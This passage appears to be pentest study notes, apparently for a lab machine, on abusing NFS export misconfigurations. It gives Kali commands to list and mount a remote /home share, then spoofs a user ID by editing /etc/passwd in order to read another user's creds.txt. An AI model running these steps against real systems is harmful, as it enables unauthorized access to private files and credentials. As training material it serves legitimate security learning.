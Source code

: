 #### Exploitable Settings 
|**Option**|**Description**|
|---|---|
|`rw`|Read and write permissions.|
|`insecure`|Ports above 1024 will be used.|
|`nohide`|If another file system was mounted below an exported directory, this directory is exported by its own exports entry.|
|`no_root_squash`|All files created by root are kept with the UID/GID 0.|


```bash - kali
showmount -e $TARGET
```
`Export list for 10.11.1.72:`
`/home 10.11.0.0/255.255.0.0`

Notice the /home directory
```bash - kali
mkdir ./home
```
```bash - kali
sudo mount -t nfs -o nolock,nfsvers=3 $TARGET:/home ./home/
```
```bash - kali
cd ./home  && ls
```
If you are not able to `cat` the content due to permisions, open  a new terminal as `root` to read the content.

ExportFS
```bash - kali
echo '/mnt/nfs  $TARGET(sync,no_subtree_check)' >> /etc/exports
```

Digging through, we see Marcus folder has a creds file:
`-rwx------ 1 1014 1014 48 Oct 27 2019 creds.txt`
Now we create a new user on kali, change it's user id value, then open the file:
```bash - kali
sudo adduser pwn
```
```bash - kali
cat /etc/passwd | grep pwn
```
now to change the 1002 to 1014
```bash - kali
sudo sed -i -e 's/1002/1014/g' /etc/passwd
```
```bash - kali
cat /etc/passwd | grep pwn
```
```bash - kali
su pwn
```
```bash - kali
cat creds.txt
```
---
```bash - kali
mount -t nfs $TARGET:/Mount/ /MyFolder -no lock
```
```
cd /MyFolder
```